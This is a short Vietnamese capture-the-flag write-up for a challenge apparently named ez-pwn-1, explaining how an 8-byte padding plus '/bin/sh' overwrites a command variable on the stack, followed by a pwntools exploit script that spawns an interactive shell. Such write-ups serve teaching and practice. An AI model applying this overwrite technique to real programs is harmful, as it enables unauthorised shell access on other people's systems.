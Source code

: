 ![ezp1.5](ezp1.5.png)

Tiếp theo chương trình sẽ đọc 0x18 byte vào vị trí rbp-0x28 đây là biến buf và cũng chính là nơi mà ta sẽ exploit

Khi chương trình chạy, stack sẽ trông ntn 

![ezp1.2](ezp12.png)

cách đơn giản là ta sẽ ghi đè command bằng /bin/sh là sẽ thành công. 0x28- 0x20 = 8 byte padding + /bin/sh

### Exploit
```python
from pwn import *
filename = "./ez-pwn-1"
payload = b"A"*8 #buf
payload += b"/bin/sh"
#proc = remote('pwn.bbctf.fluxus.co.in', 4001)
proc = process(filename)
proc.recvuntil(b"?")
proc.sendline(payload)
proc.interactive()

```